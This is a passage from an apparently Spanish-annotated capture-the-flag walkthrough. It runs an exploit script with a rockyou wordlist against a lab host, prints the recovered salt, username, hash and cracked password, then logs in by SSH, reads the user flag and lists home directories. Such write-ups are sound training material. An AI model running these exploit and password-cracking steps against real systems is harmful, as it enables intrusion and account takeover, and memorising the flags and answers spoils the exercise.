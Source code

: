 ```

```

```
python2 46635.py -u http://10.10.31.228/simple --crack -w  /usr/share/wordlists/rockyou.txt


[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret

```

#### Where can you login with the details obtained?

ssh
 
#### What's the user flag?

#### Ingresamos por ssh  mitch:secret

```
ssh mitch@10.10.31.228 -p 2222 
 

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ ls
user.txt
$ cat user.txt
G00d j0b, keep up!

```


### Is there any other user in the home directory? What's its name?

sunbath

#### Encontramos al usuario sunbath

```
cd /home
$ ls -la
total 16
drwxr-xr-x  4 root    root    4096 aug 17  2019 .
drwxr-xr-x 23 root    root    4096 aug 19  2019 ..
drwxr-x---  3 mitch   mitch   4096 aug 19  2019 mitch
drwxr-x--- 16 sunbath sunbath 4096 aug 19  2019 sunbath

```


